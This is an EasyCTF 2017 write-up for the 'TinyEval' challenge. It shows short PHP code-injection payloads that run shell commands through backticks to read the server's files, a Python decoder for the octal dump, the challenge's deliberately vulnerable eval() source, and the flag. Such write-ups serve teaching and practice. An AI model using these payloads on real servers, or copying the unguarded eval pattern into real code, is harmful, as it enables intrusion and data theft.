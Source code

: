 # TinyEval - 100 points

This [page](http://tinyeval.web.easyctf.com) will evaluate anything you give it.

### Solutions

In this problem, we are basically allowed to execute PHP code on the server, but only if it’s 11 or less characters. Of course, each call is independent from each other.

In PHP, text between backticks are executed as shell commands. We can see everything in the directory by entering:

```
echo`ls`
```

It turns out that there’s a file called flag.txt in the same directory, and our goal is to view its contents.

The normal solution to this problem would probably be to enter:

```
echo`cat *`
```

The star, which will return every file, is necessary for staying under the character limit. This results in an output showing the contents of everything in the directory, including the flag.

However, there’s a cooler solution that can be done in 10 characters:

```
echo`od *`
```

od essentially dumps data from files in printable formats. In this context, it will print all the files in the directory in an octal dump.

We can decode the data by converting each octal section into two bytes, which are stored in little-endian format:

```python
# only 6 character sections are data
a = '0000000 051106 046517 072040 072165 066565 066057 066541 035160 0000020 060554 062564 072163 042412 050130 051517 020105 030070 0000040 051012 047125 071440 062145 026440 020151 071447 040457 0000060 066154 073557 073117 071145 064562 062544 043040 066151 0000100 044545 063156 027557 066101 067554 047567 062566 071162 0000120 062151 020145 066101 027554 020047 062457 061564 060457 0000140 060560 064143 031145 071457 072151 071545 062455 060556 0000160 066142 062145 030057 030060 062055 063145 072541 072154 0000200 061456 067157 005146 052522 020116 031141 067145 067555 0000220 020144 062562 071167 072151 005145 052522 020116 066562 0000240 026440 063162 027440 070141 027560 005052 047503 054520 0000260 027040 027440 070141 027560 051012 047125 062440 064143 0000300 020157 047442 072160 067551 071556 026440 067111 062544 0000320 062570 056163 021156 037040 027040 072150 061541 062543 0000340 071563 041412 042115 023440 071057 067165 071456 023550 0000360 060545 074563 072143 075546 072151 071447 031137 030460 0000400 057467 067141 057504 062567 071047 057545 072163 066151 0000420 057554 071565 067151 057547 044120 037520 037477 005175 0000440 070074 043476 073151 020145 062555 071440 066557 072145 0000460 064550 063556 072040 020157 073145 066141 036041 070057 0000500 005076 036012 070077 070150 064412 020146 064450 071563 0000520 072145 022050 050137 051517 055524 061447 062155 056447 0000540 024451 075440 020012 020040 022040 066543 020144 020075 0000560 057444 047520 052123 023533 066543 023544 035535 020012 0000600 020040 064440 020146 071450 071164 062554 024156 061444 0000620 062155 020051 020076 030461 020051 005173 020040 020040 0000640 020040 020040 061545 067550 021040 067563 071162 026171 0000660 074440 072557 020162 072163 064562 063556 064440 020163 0000700 067564 020157 067554 063556 035040 021050 005073 020040 0000720 020040 020175 066145 062563 075440 020012 020040 020040 0000740 020040 062440 064143 020157 073145 066141 022050 066543 0000760 020144 020056 035442 024442 005073 020040 020040 005175 0001000 005175 037077 005012 063074 071157 020155 062555 064164 0001020 062157 070075 071557 037164 036012 067151 072560 020164 0001040 074564 062560 072075 074145 020164 060556 062555 061475 0001060 062155 005076 064474 070156 072165 072040 070171 036545 0001100 072563 066542 072151 005076 027474 067546 066562 000076 0001117'
a = a.split(' ')
o = ''
for c in a:
    if len(c) == 6:
        t = bin(int(c,8))[2:].zfill(16)
        o += chr(int(t[8:],2))+chr(int(t[:8],2))
```

The result contains the flag:

```
FROM tutum/lamp:latest
EXPOSE 80
RUN sed -i 's/AllowOverride FileInfo/AllowOverride All/' /etc/apache2/sites-enabled/000-default.conf
RUN a2enmod rewrite
RUN rm -rf /app/*
COPY . /app/
RUN echo "Options -Indexes\n" > .htaccess
CMD '/run.sh'easyctf{it's_2017_anD_we're_still_using_PHP???}
<p>Give me something to eval!</p>

<?php
if (isset($_POST['cmd'])) {
    $cmd = $_POST['cmd'];
    if (strlen($cmd) > 11) {
        echo "sorry, your string is too long :(";
    } else {
        echo eval($cmd . ";");
    }
}
?>

<form method=post>
<input type=text name=cmd>
<input type=submit>
</form>
```

flag: easyctf{it's_2017_anD_we're_still_using_PHP???}

### External Writeups

* [defund's writeup](https://defund.io/post/easyctf-2017-writeups/)
